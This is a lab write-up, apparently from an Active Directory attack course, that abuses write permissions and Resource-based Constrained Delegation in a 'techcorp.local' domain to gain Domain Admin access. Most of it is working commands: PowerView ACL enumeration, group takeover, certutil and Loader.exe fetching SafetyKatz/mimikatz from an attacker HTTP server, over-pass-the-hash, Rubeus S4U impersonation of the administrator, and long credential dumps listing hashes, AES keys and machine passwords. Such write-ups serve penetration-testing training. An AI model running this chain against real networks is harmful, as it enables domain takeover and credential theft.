


# Hands-On 13 - Resource-based Constrained Delegation

- [Hands-On 13 - Resource-based Constrained Delegation](#hands-on-13---resource-based-constrained-delegation)
  - [Tasks](#tasks)
  - [Find a computer object in US domain where we have Write permissions](#find-a-computer-object-in-us-domain-where-we-have-write-permissions)
  - [Abuse the Write permissions to access that computer as Domain Admin](#abuse-the-write-permissions-to-access-that-computer-as-domain-admin)
  - [Extract secrets from that machine for users and hunt for local admin privileges for the users](#extract-secrets-from-that-machine-for-users-and-hunt-for-local-admin-privileges-for-the-users)

---

## Tasks

- Find a computer object in US domain where we have Write permissions.
- Abuse the Write permissions to access that computer as Domain Admin. 
- Extract secrets from that machine for users and hunt for local admin privileges for the users.

<br/>

---

## Find a computer object in US domain where we have Write permissions

First get a InviShell:

```
cd C:\AD\Tools; .\InviShell\RunWithRegistryNonAdmin.bat
```

<br/>

Check interestint ACLs of the current user:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers")}
```

  

  


We have `GenericAll` permission on 

- OU: `Mgmt`
- CN: `MachineAdmins`

<br/>

Use `cmd.exe` to execute the following command to add ourselves to the `MachineAdmins` group.

```
Get-DomainGroup -UserName studentuser64 | Select distinguishedname
```

  

<br/>

Now use PowerView to check our user group:

```
Get-DomainGroup -UserName studentuser64 | Select distinguishedname
```

  

<br/>

Enumerate computers in the OU `mgmt`:

```
Get-DomainComputer | ?{$_.distinguishedname -match "OU=mgmt,"} | select distinguishedname, dnshostname
```

  

<br/>

Logout and login againt to refresh to security token. Then try to access `us-mgmt` using `winrs`:

```
winrs -r:us-mgmt.us.techcorp.local cmd.exe
```

  

<br/>

To dump credentials on `us-mgmt`, first copy `Loader.exe` to it. From the RDP machine:

```
copy .\Loader.exe \\us-mgmt.us.techcorp.local\C$\Users\Public\Loader.exe
```

```
python -m SimpleHTTPServer 80
```

<br/>

On the `us-mgmt` shell, load `Safetykatz` using `Loader.exe`:

```
C:\Users\Public\Loader.exe -Path http://192.168.100.64/SafetyKatz.exe "sekurlsa::ekeys"
```

  

  

Results:

```
Authentication Id : 0 ; 943753 (00000000:000e6689)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:21:37 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1115

         * Username : mgmtadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f
           rc4_hmac_nt       e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_old      e53153fc2dc8d4c5a5839e46220717e5
           rc4_md4           e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_nt_exp   e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_old_exp  e53153fc2dc8d4c5a5839e46220717e5

Authentication Id : 0 ; 27163 (00000000:00006a1b)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:29 AM
SID               : S-1-5-96-0-1

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 943479 (00000000:000e6577)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:21:37 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1115

         * Username : mgmtadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f
           rc4_hmac_nt       e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_old      e53153fc2dc8d4c5a5839e46220717e5
           rc4_md4           e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_nt_exp   e53153fc2dc8d4c5a5839e46220717e5
           rc4_hmac_old_exp  e53153fc2dc8d4c5a5839e46220717e5

Authentication Id : 0 ; 858942 (00000000:000d1b3e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:04 AM
SID               : S-1-5-90-0-2

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 856516 (00000000:000d11c4)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:04 AM
SID               : S-1-5-96-0-2

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : US-MGMT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:27 AM
SID               : S-1-5-18

         * Username : us-mgmt$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 858581 (00000000:000d19d5)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:04 AM
SID               : S-1-5-90-0-2

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 47498 (00000000:0000b98a)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:32 AM
SID               : S-1-5-90-0-1

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-MGMT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:30 AM
SID               : S-1-5-20

         * Username : us-mgmt$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 27094 (00000000:000069d6)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:29 AM
SID               : S-1-5-96-0-0

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

Authentication Id : 0 ; 47427 (00000000:0000b943)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:32 AM
SID               : S-1-5-90-0-1

         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
         * Key List :
           aes256_hmac       a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca
           aes128_hmac       31e8df3539171e9dd6ab71b04408492a
           rc4_hmac_nt       fae951131d684b3318f524c535d36fb2
           rc4_hmac_old      fae951131d684b3318f524c535d36fb2
           rc4_md4           fae951131d684b3318f524c535d36fb2
           rc4_hmac_nt_exp   fae951131d684b3318f524c535d36fb2
           rc4_hmac_old_exp  fae951131d684b3318f524c535d36fb2

```

Note:
mgmtadmin
- AES256: `32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f`
- NTLM: `e53153fc2dc8d4c5a5839e46220717e5`

<br/>

Find interesting ACL of `mgmtadmin` using PowerView:

```
Find-InterestingDomainAcl | ?{ $_.IdentityReference -match "mgmtadmin"}
```

  

- `mgmtadmin` has `GenericWrite` permission on  `US-HelpDesk`

<br/>

## Abuse the Write permissions to access that computer as Domain Admin

With the `GenericWrite` permission on `US-HelpDesk`, `mgmtadmin` can set **Resource-based Constrained Delegation** for `us-helpdesk` for the RDP machine.

First, use `mgmtadmin` credential to perform Over-Pass-the-Hash:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:mgmtadmin /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /run:powershell.exe" "exit"
```

  

<br/>

Use AD Module to configure RBCD on `us-helpdesk` the RDP machine `student64`:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount student64$
```

  

<br/>

Now we need the AES key of `student64`. Locally use **SafetyKatz.exe** to dump it out:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::ekeys"
```

  


Note:
student64$
- AES256: `c79f1c9f19d12057d4ff941cfea406defc7c51d0b176fac83ecd3ad2e1814ae2`
- NTLM: `c0b1e505a7434d9f4270c1e42d695d00`

<br/>

Use **Rubeus.exe** to access `us-desktop` as domain admin `administrator`:

```
C:\AD\Tools\Rubeus.exe s4u /user:student64$ /aes256:c79f1c9f19d12057d4ff941cfea406defc7c51d0b176fac83ecd3ad2e1814ae2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```

 

  


<br/>

Try to access `us-helpdesk`:

```
winrs -r:us-helpdesk cmd.exe
```

Note:
If you request the SPN `http/us-helpdesk`, you have to use `winrs` with `-r:us-helpdesk`;<br/>
if you request the SPN `http/us-helpdesk.us.techcorp.local`, you have to use `-r:us-helpdesk.us.techcorp.local`

  

As shown, we access `us-helpdesk` as Domain Admin.

<br/>

---

## Extract secrets from that machine for users and hunt for local admin privileges for the users

Locally use `python -m SimpleHTTPServer 80` to serve the tools.

Then on `us-helpdesk` download `Loader.exe`:

```
cd C:\Users\Public

certutil -urlcache -f http://192.168.100.64/Loader.exe .\Loader.exe
```

<br/>

Then load `SafetyKatz.exe` into memory:

```
Loader.exe -Path http://192.168.100.64/SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

  

- This doesn't work.

<br/>

Try to use an older version of Mimikatz:

```
Loader.exe -Path http://192.168.100.64/SafetyKatz_old.exe "sekurlsa::ekeys" "exit"
```

  

Result:

```
  .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

Authentication Id : 0 ; 26359 (00000000:000066f7)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : US-HELPDESK$
         * Domain   : US
         * NTLM     : 76c3848cc2e34ef0a8b5751f7e886b8e
         * SHA1     : 5358fe9870790deeb4ddda29a49863e48d1e5707
        tspkg :
        wdigest :
         * Username : US-HELPDESK$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-HELPDESK$
         * Domain   : us.techcorp.local
         * Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF8*8_/W``4SG]+R]#7n[dlTQ_qQ<LwB;t$1p?qCp9?j/
        ssp :
        credman :

Authentication Id : 0 ; 889622 (00000000:000d9316)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:23:11 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120
        msv :
         [00000003] Primary
         * Username : helpdeskadmin
         * Domain   : US
         * NTLM     : 94b4a7961bb45377f6e7951b0d8630be
         * SHA1     : c13e73f3c1cccfb0e6b730afab4d2bd211e2af97
         * DPAPI    : 2b21c39dca16e98467e116b7c1d3eb4c
        tspkg :
        wdigest :
         * Username : helpdeskadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : helpdeskadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 889539 (00000000:000d92c3)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:23:11 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120
        msv :
         [00000003] Primary
         * Username : helpdeskadmin
         * Domain   : US
         * NTLM     : 94b4a7961bb45377f6e7951b0d8630be
         * SHA1     : c13e73f3c1cccfb0e6b730afab4d2bd211e2af97
         * DPAPI    : 2b21c39dca16e98467e116b7c1d3eb4c
        tspkg :
        wdigest :
         * Username : helpdeskadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : helpdeskadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :


Authentication Id : 0 ; 889539 (00000000:000d92c3)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:23:11 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120

         * Username : helpdeskadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534
           rc4_hmac_nt       94b4a7961bb45377f6e7951b0d8630be
           rc4_hmac_old      94b4a7961bb45377f6e7951b0d8630be
           rc4_md4           94b4a7961bb45377f6e7951b0d8630be
           rc4_hmac_nt_exp   94b4a7961bb45377f6e7951b0d8630be
           rc4_hmac_old_exp  94b4a7961bb45377f6e7951b0d8630be


Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-HELPDESK$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:24 AM
SID               : S-1-5-20

         * Username : us-helpdesk$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b654a7108a6e384d0e8a57db97dc10afed802f40b419eb7688e821478ccdaf9f
           rc4_hmac_nt       76c3848cc2e34ef0a8b5751f7e886b8e
           rc4_hmac_old      76c3848cc2e34ef0a8b5751f7e886b8e
           rc4_md4           76c3848cc2e34ef0a8b5751f7e886b8e
           rc4_hmac_nt_exp   76c3848cc2e34ef0a8b5751f7e886b8e
           rc4_hmac_old_exp  76c3848cc2e34ef0a8b5751f7e886b8e

<snip>

```

Note:
helpdeskadmin
- AES256: `f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534`
- NTLM: `94b4a7961bb45377f6e7951b0d8630be`

<br/>

On the RDP machine, perform a Over-Pass-the-Hash using `helpdeskadmin` credential:

```
.\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /run:powershell.exe" "exit"
```

<br/>

Then on the new PowerShell session, find local admin access using PowerView:

```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
```

```
. C:\AD\Tools\PowerView.ps1
```

```
Find-LocalAdminAccess
```

- No result

Try to check using `Find-PSRemotingLocalAdminAccess.ps1`:

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1; Find-PSRemotingLocalAdminAccess
```

  

- helpdeskadmin can access `us-helpdesk` and `us-adconnect`

<br/>

Use `winrs` to access `us-adconnect`:

```
winrs -r:us-adconnect cmd.exe
```

  

<br/>
